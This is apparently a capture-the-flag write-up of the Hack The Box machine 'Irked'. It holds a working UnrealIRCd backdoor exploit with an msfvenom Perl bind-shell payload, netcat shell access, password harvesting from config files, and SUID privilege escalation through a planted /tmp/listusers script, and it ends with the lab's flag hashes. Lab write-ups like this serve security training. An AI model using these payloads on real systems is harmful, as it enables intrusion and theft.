


# Table of Contents:

- [Irked](#irked)
  - [Network Enum:](#network-enum)
  - [Payload:](#payload)
  - [Exploit:](#exploit)
  - [Host Enum:](#host-enum)

<!-- ToC generated using https://imthenachoman.github.io/nGitHubTOC/ -->

# Irked

https://www.hackthebox.eu/home/machines/profile/163



## Network Enum:

`nmap -sV -O -p1-65535 10.10.10.117`

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-20 00:07 EST
Nmap scan report for 10.10.10.117
Host is up (0.14s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
32821/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 516.32 seconds
```

`searchsploit unrealircd`

```bash
-------------------------------------------------------------
Exploit Title                                                
-------------------------------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit) 
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow      
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute               
UnrealIRCd 3.x - Remote Denial of Service                    
-------------------------------------------------------------
Shellcodes: No Result
```

Vulnerability: https://www.unrealircd.org/txt/unrealsecadvisory.20100612.txt

Exploit `UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)`. 

`cat /usr/share/exploitdb/exploits/linux/remote/16922.rb`

Uses `AB;` to trigger the backdoor. Suggested payloads includes `perl`:

```ruby
'PayloadType' => 'cmd',
'RequiredCmd' => 'generic perl ruby bash telnet'
```

## Payload:

Payload generation: `msfvenom -p cmd/unix/bind_perl LHOST=10.10.10.117 LPORT=62000 VERBOSE=true`

```perl
AB;perl -MIO -e '$p=fork();exit,if$p;foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(LocalPort,62000,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);while(<>){if($_=~ /(.*)/){system $1;}};'
```

## Exploit:

```bash
root@kali:~/Desktop/10.10.10.117# nc -vn 10.10.10.117 65534
(UNKNOWN) [10.10.10.117] 65534 (?) open
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;perl -MIO -e '$p=fork();exit,if$p;foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(LocalPort,62000,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);while(<>){if($_=~ /(.*)/){system $1;}};'
:irked.htb 451 AB;perl :You have not registered
```

In another tab:

```bash
root@kali:~/Desktop/10.10.10.117# nc -vn 10.10.10.117 62000
(UNKNOWN) [10.10.10.117] 62000 (?) open
whoami
ircd
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$
```

## Host Enum:

OS info:

```bash
uname -a
Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux
cat /etc/*-release
PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
NAME="Debian GNU/Linux"
VERSION_ID="8"
VERSION="8 (jessie)"
ID=debian
HOME_URL="http://www.debian.org/"
SUPPORT_URL="http://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

searchsploit:



Only applicable exploit is `34923.c` exploiting `CVE-2014-5207`. Further recon:

```bash
mount | grep fuse
fusectl on /sys/fs/fuse/connections type fusectl (rw,relatime)
```

Failed to compile code on host with error:

```
$ gcc -Wall f.c `pkg-config fuse --cflags --libs` -o f                        
gcc -Wall f.c `pkg-config fuse --cflags --libs` -o f
/bin/sh: 1: pkg-config: not found
f.c:21:18: fatal error: fuse.h: No such file or directory
 #include <fuse.h>
                  ^
compilation terminated.
```

Checked for fuse headers:

```bash
$ ls -la /usr/include/f*
ls -la /usr/include/f*
-rw-r--r-- 1 root root  9458 Jun 18  2017 /usr/include/fcntl.h
-rw-r--r-- 1 root root 12985 Jun 18  2017 /usr/include/features.h
-rw-r--r-- 1 root root  4590 Jun 18  2017 /usr/include/fenv.h
-rw-r--r-- 1 root root  3239 Jun 18  2017 /usr/include/fmtmsg.h
-rw-r--r-- 1 root root  2295 Jun 18  2017 /usr/include/fnmatch.h
-rw-r--r-- 1 root root  3111 Jun 18  2017 /usr/include/fstab.h
-rw-r--r-- 1 root root  5290 Jun 18  2017 /usr/include/fts.h
-rw-r--r-- 1 root root  5250 Jun 18  2017 /usr/include/ftw.h
```

Deadend. Enumerating users:

```bash
$ users
users
(unknown) djmardov djmardov ircd
$ ls -la /home/
ls -la /home/
total 16
drwxr-xr-x  4 root     root     4096 May 14  2018 .
drwxr-xr-x 21 root     root     4096 May 15  2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Dec 27 18:39 djmardov
drwxr-xr-x  4 ircd     root     4096 Dec 27 18:47 ircd
```

Searching `unrealircd` for passwords:

```bash
$ pwd
pwd
/home/ircd/Unreal3.2
$ cat *.conf | grep pass
cat *.conf | grep pass
	"          JOIN #IRCd,#Support,#main letmein,somepass,anotherpass";
	" Synatx:  VHOST <login> <password>";
	" Syntax:  OPER <uid> <password>";
	" Note: both uid and password are case sensitive";
	"         RESTART <password>";
	"         RESTART <password> <reason>";
	"         DIE <password>";
	" reply from every server it passes with time and so on";
help Mkpasswd {
	" you can use this hash for any encrypted passwords in your configuration file:";
	" eg: for oper::password, vhost::password, etc.";
	" Syntax:  MKPASSWD <method> <password>";
 * control and/or set a password. 
 *    password "(password)"; (optional)
	hostname       *@*.passworded.ugly.people;
	password "f00Ness";
	password "f00";
 *	password-connect "(pass to send)";
 *	password-receive "(pass we should receive)";
	password-connect "LiNk";
	password-receive "LiNk";
 * NEW: drpass {}
 * This defines the passwords for /die and /restart.
 * drpass { 
 *  restart		"(password for restarting)";
 *  die		        "(password for die)";
drpass {
 * the first character is a #. It then passes this along to the chanserv alias with the parameters IDENTIFY
 * passes the command to the nickserv alias with parameters IDENTIFY %1-.
 *       password (password);
 *        then to use this vhost, do /vhost (login) (password) in IRC
	password        moocowsrulemyworld;
$ 
```

Noted passwords:

```
moocowsrulemyworld
LiNk
f00
f00Ness
```

None work to become `djmardov` or `root`. Enum of `djmardov`:

```bash
ircd@irked:~/Unreal3.2$ ls -ahlR /home/djmardov/
ls -ahlR /home/djmardov/
/home/djmardov/:
total 92K
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 .
drwxr-xr-x  4 root     root     4.0K May 14  2018 ..
lrwxrwxrwx  1 root     root        9 Nov  3 04:26 .bash_history -> /dev/null
-rw-r--r--  1 djmardov djmardov  220 May 11  2018 .bash_logout
-rw-r--r--  1 djmardov djmardov 3.5K May 11  2018 .bashrc
drwx------ 13 djmardov djmardov 4.0K May 15  2018 .cache
drwx------ 15 djmardov djmardov 4.0K May 15  2018 .config
drwx------  3 djmardov djmardov 4.0K May 11  2018 .dbus
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 Desktop
drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 Documents
drwxr-xr-x  2 djmardov djmardov 4.0K May 14  2018 Downloads
drwx------  3 djmardov djmardov 4.0K Nov  3 04:40 .gconf
drwx------  2 djmardov djmardov 4.0K May 15  2018 .gnupg
-rw-------  1 djmardov djmardov 4.6K Nov  3 04:40 .ICEauthority
drwx------  3 djmardov djmardov 4.0K May 11  2018 .local
drwx------  4 djmardov djmardov 4.0K May 11  2018 .mozilla
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 Music
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 Pictures
-rw-r--r--  1 djmardov djmardov  675 May 11  2018 .profile
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 Public
drwx------  2 djmardov djmardov 4.0K May 11  2018 .ssh
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 Templates
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 Videos
ls: cannot open directory /home/djmardov/.cache: Permission denied
ls: cannot open directory /home/djmardov/.config: Permission denied
ls: cannot open directory /home/djmardov/.dbus: Permission denied

/home/djmardov/Desktop:
total 8.0K
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 .
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..

/home/djmardov/Documents:
total 16K
drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt

/home/djmardov/Downloads:
total 8.0K
drwxr-xr-x  2 djmardov djmardov 4.0K May 14  2018 .
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
ls: cannot open directory /home/djmardov/.gconf: Permission denied
ls: cannot open directory /home/djmardov/.gnupg: Permission denied
ls: cannot open directory /home/djmardov/.local: Permission denied
ls: cannot open directory /home/djmardov/.mozilla: Permission denied

/home/djmardov/Music:
total 8.0K
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 .
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..

/home/djmardov/Pictures:
total 8.0K
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 .
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..

/home/djmardov/Public:
total 8.0K
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 .
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
ls: cannot open directory /home/djmardov/.ssh: Permission denied

/home/djmardov/Templates:
total 8.0K
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 .
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..

/home/djmardov/Videos:
total 8.0K
drwxr-xr-x  2 djmardov djmardov 4.0K May 11  2018 .
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
ircd@irked:~/Unreal3.2$ cat /home/djmardov/Documents/.backup
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
ircd@irked:~/Unreal3.2$ 
```

Password used stegonagraphy. Couldn't figure it out. deadend.

Looking for SUID/GUID executables:

```bash
rcd@irked:/var/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```

`viewuser` is weird. Ran the executable and fails to open `/tmp/listusers`. 

```bash
ircd@irked:/tmp$ viewuser -h
viewuser -h
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-12-28 14:23 (:0)
djmardov pts/0        2018-12-28 14:24 (10.10.14.90)
djmardov pts/2        2018-12-28 14:24 (10.10.12.61)
ircd     pts/3        2018-12-28 14:24 (10.10.15.76)
djmardov pts/4        2018-12-28 14:25 (10.10.14.67)
sh: 1: /tmp/listusers: not found
```

Created an empty file and gave it `chmod a+r` and error went away. Then tried puttting in a `touch /tmp/test` in there and found the following after running `viewuser`:

```bash
root@irked:/tmp# viewuser
viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-12-28 14:23 (:0)
djmardov pts/0        2018-12-28 14:24 (10.10.14.90)
djmardov pts/2        2018-12-28 14:24 (10.10.12.61)
ircd     pts/3        2018-12-28 14:24 (10.10.15.76)
djmardov pts/4        2018-12-28 14:25 (10.10.14.67)
djmardov pts/9        2018-12-28 14:29 (10.10.15.124)
root@irked:/tmp# ls -la
ls -la
total 52
drwxrwxrwt 11 root root 4096 Dec 28 14:33 .
drwxr-xr-x 21 root root 4096 May 15  2018 ..
drwxrwxrwt  2 root root 4096 Dec 28 14:23 .font-unix
drwxrwxrwt  2 root root 4096 Dec 28 14:23 .ICE-unix
-rwx--x--x  1 ircd ircd   16 Dec 28 14:33 listusers
-rw-------  1 root ircd    0 Dec 28 14:33 test
drwxrwxrwt  2 root root 4096 Dec 28 14:23 .Test-unix
drwx------  2 root root 4096 Dec 28 14:23 vmware-root
-r--r--r--  1 root root   11 Dec 28 14:23 .X0-lock
drwxrwxrwt  2 root root 4096 Dec 28 14:23 .X11-unix
drwxrwxrwt  2 root root 4096 Dec 28 14:23 .XIM-unix
```

BAMN thats `root` and `djmardov` all in one! Changed `listusers` to the following:

```bash
cat /root/root.txt > /tmp/arey
cat /home/djmardov/Documents/user.txt >> /tmp/arey
chmod a+r /tmp/arey
```

And here is the profit:

```bash
ircd@irked:/tmp$ cat arey
cat arey
8d8e9e8be64654b6dccc3bff4522daf3
4a66a78b12dc0e661a59d3f5c0267a8e
```

